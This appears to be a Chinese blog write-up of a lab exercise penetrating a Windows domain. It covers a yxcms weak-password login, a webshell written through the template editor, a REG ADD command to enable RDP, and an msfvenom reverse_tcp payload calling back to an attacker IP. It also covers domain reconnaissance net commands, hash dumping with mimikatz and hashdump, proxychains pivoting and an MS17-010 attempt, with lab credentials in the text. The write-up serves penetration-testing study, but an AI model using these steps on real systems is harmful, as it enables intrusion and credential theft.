


内网渗透 | 记录一次简单的域渗透
环境搭建
三台虚拟机，拓扑如下：
VM1双网卡，第一个桥接一个VMnet2，桥接的作用是模拟将其web服务暴露在外网。攻击机是在桥接网卡的网络中。
VM2、VM3全部是VMnet2，测试后是可以的。
后面碰到一个问题，DMZ无法与域控通信，相当于整个域与DMZ失去了联系，后面发现要将DMZ的DNS设置成域控AD的IP。
初探DMZ
可以看到有个yxcms。
存在弱口令：admin 123456
可以看到一些系统的设置，站点物理路径:C:/phpStudy/WWW
先浏览一下后台，看看有没有能get shell的地方。
看到了执行sql语句，但是在尝试写shell的过程中发现一句话写不进去。
http://192.168.8.157/yxcms/index.php?r=admin/set/tpadd&Mname=default目标路径：
http://192.168.8.157/yxcms/protected/apps/default/view/default/config_inc.php进入内网
关于发现内网主机以及代理的问题，在“浅析内网渗透”一文中有解释：
这里不再赘述，只是演示相关操作。

双网卡，可知内网ip段时192.168.52.x，进行域渗透最好连接3389。
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f用上述命令开启3389端口。
注意估计是有密码策略，复杂度够了才能添加成功。
但是3389连接不上，估计是开了防火墙……
可以选择msf的shell关闭防火墙，或者是使用ngrok隧道连接3389。
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.8.116 lport=2333 -f exe > get.exemeterpreter > run post/windows/manage/enable_rdp
域渗透常用的命令：
ipconfig /all 查询本机IP段，所在域等net config Workstation 当前计算机名，全名，用户名，系统版本，工作站域，登陆域net user 本机用户列表net localhroup administrators 本机管理员[通常含有域用户]net user /domain 查询域用户net user 用户名 /domain 获取指定用户的账户信息net user /domain b404 pass 修改域内用户密码，需要管理员权限net group /domain 查询域里面的工作组net group 组名 /domain 查询域中的某工作组net group "domain admins" /domain 查询域管理员列表net group "domain controllers" /domain 查看域控制器(如果有多台)net time /domain 判断主域，主域服务器都做时间服务器
简单收集信息后得到：域:god.org 域控:138 域成员:141
可以使用msf的getsystem提权成功抓hash:hashdump
或者参考上篇内网渗透msf mimikatz抓取明文。
内网访问还是两个方法：socks代理以及msf添加路由。
内网漫游
这里还是选择了socks代理。
proxychains msfconsole445也开着，尝试打一波17_010,2003总是蓝屏遂放弃……

这样已经拿到了另一台域成员的权限了。
proxychains rdesktop 192.168.52.141传个shell：
rdesktop -f 192.168.52.141 -u Railgun -p MIE123@u123 -r disk:E=/root/Desktop/运行即可。
通过getsystem提权成功。接下来域控。
通过上面mimikatz的使用我们已经知道了域用户的账号密码：Administrator
登陆:GOD\Administrator hongri@u123
提权+hash：
这样等域控管理员登陆就可以得到域控的密码了。
这样登陆的全被记录了下来。
写在最后
进行域渗透的最终目标就是拿到域控导出hash或明文密码。
拿到DMZ业务段机器后，开个socks并且反弹个meterpreter的shell回来
proxychians来msf或nmap
Windows proxifier来渗透内网web
meterpreter添加路由
然后就是域成员及域控的渗透，本文没有涉及$IPC入侵，不过应该也挺常用的。
涉及的比较重要的是如何开3389，如何关闭防火墙，如何得到域控的密码以及17_010无法反弹shell时怎么办。
拿到域控后提权导密码，结束。

推荐阅读：
原创投稿作者：Railgun
作者博客：www.pwn4fun.com
本文由公众号HACK学习排版编辑整理